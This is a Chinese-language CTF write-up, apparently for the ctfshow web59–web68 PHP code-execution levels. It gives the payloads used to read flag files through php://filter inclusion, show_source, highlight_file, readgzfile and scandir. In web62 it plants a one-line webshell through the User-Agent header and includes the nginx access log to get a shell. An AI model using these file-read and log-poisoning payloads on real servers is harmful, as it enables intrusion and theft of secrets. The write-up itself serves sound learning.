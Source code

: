代码与上一题一样没有变化，但上一题的`file_get_contents()`函数被禁用了，换个姿势，`c=include($_GET[1]);`

`/?1=php://filter/convert.base64-encode/resource=flag.php`

## web60

代码无变化，继续换姿势`c=show_source("flag.php");`

## web61

代码无变化，换姿势`c=highlight_file('flag.php');`

## web62

代码无变化，换一个姿势解题，这里尝试用日志包含拿shell，首先在请求头的`User-Agent`写入一句话木马，`c=include($_GET[1]);&a=echo 'abcde'`，`/?1=/var/log/nginx/access.log`，成功拿到shell，接下就尝试写命令，后来想到程序执行函数都被过滤了，好像拿到这个shell也不能写命令，不过可以蚁剑直连。后面再想想，源码里好像有一个shell，可以直接蚁剑连接getshell。但不知道为什么蚁剑连进去，看不到文件里的内容。

## web63

代码没变，继续用`show_source()`函数，换种姿势`c=include('flag.php');echo $flag;`，`$flag`是`flag.php`文件中的变量，要先将文件包含进去，才能读取文件中的变量

## web64

代码没变，`show_source()`函数还没被禁用，可以继续用，换姿势，`c=include('flag.php');print_r(get_defined_vars());`，这里用到的函数：

```
get_defined_vars() — 返回由所有已定义变量所组成的数组
此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义的变量。
```

思路其实跟上一题差不多，先包含文件，再读取文件中的变量值。

## web65

代码没变，还可以用`show_source()`

## web66

代码没变，`show_source()`终于被禁了，`highlight_file()`仍然可用，但flag不在`flag.php`了，查找新文件的路径`c=print_r(scandir('/'));`，根目录下找到`flag.txt`，`payload：c=highlight_file('/flag.txt');`

## web67

代码不变，`print_r()`被禁了，替换成`var_dump()`，同样在根目录下找到`flag.txt`，payload同上一题

## web68

打卡页面，直接显示`highlight_file()`被禁用，我们还可以用`readgzfile()`，`c=readgzfile('/flag.txt');`。其它方法`c=include('/flag.txt');`，这里直接包含就行，因为不是php代码，所以文件包含把txt当html直接输出
